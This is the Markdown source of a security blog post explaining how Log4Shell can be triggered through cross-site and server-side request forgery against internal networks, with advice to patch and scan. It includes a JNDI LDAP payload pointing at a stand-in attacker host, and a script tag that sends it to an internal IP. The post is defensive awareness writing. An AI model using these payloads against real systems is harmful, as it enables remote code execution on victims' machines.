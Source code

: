 ```yaml
---
title: "Log4Shell and Request Forgery Attacks"
date: 2022-01-04T15:18:18-08:00
draft: true
tags: [
        "pentest", "red","research"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Log4Shell and Request Forgery Attacks"
  description:  "Beware of Log4Shell and Request Forgery Attacks"
  image: "https://embracethered.com/blog/images/2022/log4shell.png"
---
```



The last weeks of 2021 got quite interesting for security professionals. 

Apache's [log4j library](https://logging.apache.org/log4j/2.x/) and its now prominent [Java Naming and Directory Interface support](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html), which enables easy remote code execution, made the news across the industry. 

What makes Log4Shell scary is the widespread adoption of the log4j library amongst Java applications, and the ease of remote exploitation. 

**A dangerous combination.** 

Patches got released, bypasses were discovered more patches were released and so forth.

A lot has been written and great information is out there around [discovery](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/), [exploitation](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit) as well as [mitigations](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). This post is not intended to repeat that information. 

![Log4Shell and Request Forgery Attacks](/blog/images/2022/log4shell.png)

However, an area that has not gotten a lot of attention is the exploitation of Log4Shell in Request Forgery Attacks that target internal infrastructure and web servers from the outside by using the browser or a vulnerable service as confused deputy.

## What are Request Forgery Attacks?

Request Forgery Attacks create requests that have unintended consequences for the victim of the attack. 

These can typically be put in two categories, based on where the request is forged (client or server)
 
1. **Cross-Site Request Forgery Attacks** (CSRF) - these attacks make the client/browser connect to resources and trigger unintended actions. This attactypically leverages authentication tokens to invoke privileged operations on the users behalf via a web browser.
2. **Server-Side Request Forgery Attacks** (SSRF) - these attacks create a request on the server side, where an attacker is able to provide a URL to the server and the server will later connect to that URL. This could be via a wide range of destinations and protocols (localhost, internal networks, http, ftp, ldap,...)

Both kinds of request forgery vulnerabilities are quite common in web application and services. Also see the [confused deputy problem](https://en.wikipedia.org/wiki/Confused_deputy_problem) for a generic explanation of this kind of security issue.

## Why is this interesting in regard to Log4j?

**What makes request forgery attacks so powerful in regard to Log4j is that the Log4j vulnerability often can be triggered without any form of authentication**. 

This makes Cross-Site Request Forgery Attacks that target local or internal network resources very plausible. The same goes for the Server-Side attack scenarios. 

Any Server-Side feature which allows a user to specify a URL to control where a service connects to can potentially be leveraged to target internal infrastructure and probe for the log4j vulnerability.

## Simple GET requests trigger Log4Shell

Remember that in many cases all that is needed to reach a vulnerable log4j system is a GET request with a query parameter that contains the attack payload, for example:

`?username=${jndi:ldap://attacker/p}`

This payload can be provided by a malicious web page, e.g. when loading `image` or `script` tags:

`<script src="https://10.0.0.1/?username=${jndi:ldap://attacker/p}">`

This request will attack an internal network (such as the `10.0.0.1` IP address). It can also target applications installed on `localhost` (including phones!) of the victim browsing the Internet. 

![Log4Shell and Request Forgery Attacks - Log4 What?](/blog/images/2022/glasses.png)

An adversary can automate and scale this technique via JavaScript and AJAX requests or by just adding more tags in the HTML document.

Beware of this attack vector (possibly in combination with phishing attacks) patch and protect internally facing applications as well.

## Conclusion

This post discussed how both Cross-Site (client based) and Server-Side Request Forgery Attacks can lead to succesful exploitation of the log4j vulnerability.

**If you were solely focused on patching externally facing applications and services expand your analysis to everything, including internal infrastructure, as well as developer and end user machines.**

[Chrome and Edge](https://chromestatus.com/feature/5436853517811712) seem to add more restrictions for browsers to talk to private networks as well.

Keep scanning and patching!

## References

* [Apache Log4j Overview](https://logging.apache.org/log4j/2.x/) 
* [JNDI Overview](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)
* [CISA - Apache Log4j Vulnerabilty Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
* [Apache Log4j Vulnerability - Exploit](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/#exploit)
* [Confused Deputy Problem](https://en.wikipedia.org/wiki/Confused_deputy_problem)
* [Guidance for preventing, detecting and hunting for CVE 2021-44228](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
* [Feature: Restrict "private network requests" for subresources from public websites to secure contexts](https://chromestatus.com/feature/5436853517811712)
* Image with the glasses taken from Microsoft Image search included in PowerPoint - credit goes to whoever created the image.

